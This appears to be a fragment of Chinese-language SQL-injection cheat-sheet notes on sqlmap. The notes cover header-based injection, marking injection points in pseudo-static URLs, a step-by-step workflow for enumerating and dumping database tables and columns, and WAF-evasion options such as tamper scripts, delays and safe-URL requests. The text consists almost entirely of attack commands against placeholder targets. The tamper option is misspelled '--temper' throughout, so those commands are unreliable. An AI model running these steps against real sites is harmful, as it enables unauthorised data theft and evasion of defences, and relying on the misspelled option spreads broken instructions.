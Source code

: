 ```python
python sqlmap.py -u "注入点" --level 3 --user-agent
python sqlmap.py -u "注入点" --level 2 --referer
```



### SQLMap伪静态注入

url后面加*(星号)

```python
1.分析是否为伪静态
www.xxx.com/xxx.html
控制台：document.lastModified
按上下箭头 看时间是否改变 如果改变就是伪静态

2.--current-db
sqlmap.py -u www.xxx.com/xxx.html --current-db
在SQLmap中 哪里存在注入点就在哪里输入

3.-D "数据库名" --tables
sqlmap.py -u www.xxx.com/xxx*.html -D 数据库 --tables

4.-D "数据库名" -T "表名" --columns
sqlmap.py -u www.xxx.com/xxx*.html -D 数据库 -T 表名 --columns

5.-D "数据库名" -T "表名" -C "列名" --dump
sqlmap.py -u www.xxx.com/xxx*.html -D 数据库 -T 表名 -C 列1,列2 --dump
```

### SQLMap绕过WAF

#### --temper选项绕过

```python
--temper space2morehash.py
sqlmap目录中temper文件夹下有很多脚本,通过--temper 文件名.py调用,也可以自己编写temper脚本
```

#### 延时绕过

```
--delay = 2   设置延时为2秒,降低请求频率
```

#### 定期访问安全页面绕过

```
--safe-url 隔一段时间访问一下安全的url
或
--safe-freq 每次测试请求之后都会访问一下的安全URL
```



![image-20220919101302771](SQL%E6%B3%A8%E5%85%A5(MySQL).assets/image-20220919101302771.png)
